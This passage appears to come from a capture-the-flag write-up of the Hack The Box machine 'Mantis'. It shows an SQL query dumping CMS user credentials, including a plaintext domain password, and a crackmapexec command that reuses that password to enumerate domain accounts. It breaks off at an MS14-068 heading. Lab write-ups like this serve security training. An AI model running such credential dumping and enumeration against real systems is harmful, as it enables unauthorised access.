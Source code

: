 ```
Password                                                                                                                          
PasswordFormat                                                                                                                    
HashAlgorithm                                                                                                                     
PasswordSalt                                                                                                                      
RegistrationStatus                                                                                                                
EmailStatus                                                                                                                       
EmailChallengeToken                                                                                                               
CreatedUtc                                                                                                                        
LastLoginUtc                                                                                                                      
LastLogoutUtc         

SQL> select UserName,Password,Email from blog_Orchard_Users_UserPartRecord
admin 
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==

James
J@m3s_P@ssW0rd!
james@htb.local 
```

So we take a wild guess that the James user is a domain account on this box. We cant just psexec onto the machine with his creds, but it does appear to be a valid username and password.
```
root@sushi:~# crackmapexec 10.10.10.52 -d HTB -u james -p J@m3s_P@ssW0rd! --users
CME          10.10.10.52:445 MANTIS          [*] Windows 6.1 Build 7601 (name:MANTIS) (domain:HTB)
CME          10.10.10.52:445 MANTIS          [+] HTB\james:J@m3s_P@ssW0rd! 
CME          10.10.10.52:445 MANTIS          [+] Dumping users
CME          10.10.10.52:445 MANTIS          Administrator (500)/FullName: 
CME          10.10.10.52:445 MANTIS          Administrator (500)/UserComment: 
CME          10.10.10.52:445 MANTIS          Administrator (500)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          Administrator (500)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          Administrator (500)/LogonCount: 47
CME          10.10.10.52:445 MANTIS          Guest (501)/FullName: 
CME          10.10.10.52:445 MANTIS          Guest (501)/UserComment: 
CME          10.10.10.52:445 MANTIS          Guest (501)/PrimaryGroupId: 514
CME          10.10.10.52:445 MANTIS          Guest (501)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          Guest (501)/LogonCount: 0
CME          10.10.10.52:445 MANTIS          krbtgt (502)/FullName: 
CME          10.10.10.52:445 MANTIS          krbtgt (502)/UserComment: 
CME          10.10.10.52:445 MANTIS          krbtgt (502)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          krbtgt (502)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          krbtgt (502)/LogonCount: 0
CME          10.10.10.52:445 MANTIS          james (1103)/FullName: James
CME          10.10.10.52:445 MANTIS          james (1103)/UserComment: 
CME          10.10.10.52:445 MANTIS          james (1103)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          james (1103)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          james (1103)/LogonCount: 26
[*] KTHXBYE!
```
### Impacket MS14-068
